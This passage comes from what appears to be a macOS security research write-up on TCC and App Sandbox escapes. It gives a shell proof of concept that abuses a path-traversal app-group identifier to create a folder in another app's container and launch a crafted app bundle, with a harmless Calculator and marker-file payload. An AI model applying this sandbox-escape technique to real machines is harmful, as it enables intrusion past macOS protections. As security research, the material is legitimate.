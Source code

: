 

**This entitlement is widely used in many applications:**

<img src="/images/2024-08-24-Unveiling-Mac-Security-A-Comprehensive-Exploration-of-TCC-Sandboxing-and-App-Data-TCC/WX20240819-141944.png" style="zoom:50%; display: block; margin: 0 auto;" />

For these apps, we only need a vulnerability that allows the creation of arbitrary folders to achieve a SBX

```shell
rm -rf ./hello.app
echo "use framework \"Foundation\"\n\nset theAppGroup to \"../Containers/com.apple.mail/Data/hello.app\"\nset theFileManager to current application's NSFileManager's defaultManager()\nset theContainerURL to theFileManager's containerURLForSecurityApplicationGroupIdentifier:theAppGroup\nreturn theContainerURL as text" > hello.scpt
osascript hello.scpt
rm -rf ./hello.app/*
rm -rf ./hello.app/.*
mkdir -p hello.app/Contents/MacOS
echo '#!/bin/sh' > hello
echo 'open -a Calculator' >> hello
echo 'touch /tmp/YOUHAVEBEENHACKED' >> hello
chmod 777 hello
mv hello hello.app/Contents/MacOS/hello
open ./hello.app
```



**Obviously, the route has some limitations:**

`Microsoft Word` and many other applications don‘t declare the entitlement. 

*We* need to find another way to exploit them.



#### **2.9.2 Route 2: Abuse User-Selected Feature**

**What is User-Selected Feature?**
